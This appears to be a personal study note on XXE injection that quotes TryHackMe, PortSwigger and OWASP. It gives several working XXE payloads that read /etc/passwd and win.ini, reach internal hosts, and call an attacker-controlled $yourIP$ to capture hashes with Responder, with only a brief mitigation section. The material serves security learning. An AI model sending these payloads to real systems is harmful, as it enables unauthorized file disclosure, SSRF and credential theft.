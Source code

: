 # XXE Injection

## Introduction

[TryHackMe defines XML as](https://tryhackme.com/r/room/xxeinjection) *"(Extensible Markup Language) is a markup language derived from SGML (Standard Generalized Markup Language), which is the same standard that HTML is based on."*. Visit local [[XML]] page for more details on the technicalities of XML. [TryHackMe articulates the significance](https://tryhackme.com/r/room/xxeinjection)  of *"XSLT (Extensible Stylesheet Language Transformations) is a language used to transform and format XML documents"*, because it is *"relevant to XXE (XML External Entities) attacks.*"

[XSLT](https://en.wikipedia.org/wiki/XSLT) is programmable (Turing complete according to Wikipedia) reads XML as input to:
- Return as output; and therefore XXE can be used for [[Data-Exfiltration]] and remotely if combined with [[Server-Side-Request-Forgery]]
- Modification through
	- Expanding entities: adding more to an element `<element> test="test" <attribute> New Attribute as content </attribute>`)
	- Injecting malicious data
	- Modifying existing data

[TryHackMe states DTDs](https://tryhackme.com/r/room/xxeinjection)  *"or Document Type Definitions define the structure and constraints of an XML document."* Used in XML Structural Validation and Entity Declaration the latter allows attackers to declare external entities like URLs, files, etc.
## XXE Injection

XML External Entity injection (XXE) - [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) *"is a type of attack against an application that parses XML input. This attack occurs when **XML input containing a reference to an external entity is processed by a weakly configured XML parser**. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts."*

[Portswigger](https://portswigger.net/web-security/xxe): *"XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL. "*

- File uploads
- Changing the content type `application/x-www-form-urlencoded`
## XXE to retrieve files

Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response. Requires modification of the submitted XML either by:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.


[Portswigger](https://portswigger.net/web-security/xxe)'s example of stock level in shopping application:
`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

[Portswigger](https://portswigger.net/web-security/xxe) notes that with real-world XXE vulnerabilities, there are large number of data values with submitted XML - each individual data node must be systematically tested..
## XXE to SSRF attacks

Exploiting XXE to perform SSRF ([[Server-Side-Request-Forgery]]) attacks, where an external entity is defined based on a URL to a back-end system.

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

## Blind XXE to exfiltrate data out-of-band

Blind XXE to exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.

## Blind XXE to retrieve data via error messages
 
Blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`
## XInclude Attacks

If you do not control the entire XML document and therefore cannot define the `DOCTYPE` element it may be possible to use `XInclude` instead. `XInclude` is an element that allows an XML document to be built from sub-documents and can be place within any data value in an XML Document.

## XXE XML Entity injection

See [[XML]] for more about XML
```xml
<!--Last Line of Request -->

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)> <!-- REF: (#ANY) instead of (ANY) -->
<!ENTITY file SYSTEM "file:///etc/passwd">
]> 
<xmlEntityInjection>
	<Author>Hacker1</Author> 
	<Subject>&file;</Subject>
	<Content>LearnDaXMLs3</Content>
</xmlEntityInjection>

<!--Notes -->
<!-- Creates a Header-->
<!-- System call to file variable->
<!-- Prints address file with &file -->
<!-- The two section must connect -->
```
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)

To exemplify, simplify the above and enumerate the OS with Arbitrary File Read
```xml
<!-- Either:  -->
<!-- SYSTEM "/etc/passwd"  -->
<!-- SYSTEM "file:///etc/passwd"  -->

<!--Windows  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>

<!--Linux  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>
```

XXE abuse [[Server-Side-Request-Forgery]] - and capture hashes with [[Responder-Cheatsheet]]
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://$yourIP$/test"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
The above is modified from HackTricks - [check Hacktricks for Blind SSRF, DTD abuse and others](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

#### RCE

If the [php expect wrapper](https://www.php.net/manual/en/wrappers.expect.php) is enabled:

## Mediation

Configuration of a XML interpreter disallowing the inclusion of external entities enabling attack against applications that interpret XML language in their parameters. 
- Disable support for `XInclude`


## References

[THM Walkthrough Room on XXE CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
[Portswigger](https://portswigger.net/web-security/xxe)
[BrightSec](https://brightsec.com/blog/xxe-attack/)
[OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
[Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
[php expect wrapper Documentation](https://www.php.net/manual/en/wrappers.expect.php) 
[TryHackMe XXE Room](https://tryhackme.com/r/room/xxeinjection)
[Wikipedia XSLT](https://en.wikipedia.org/wiki/XSLT)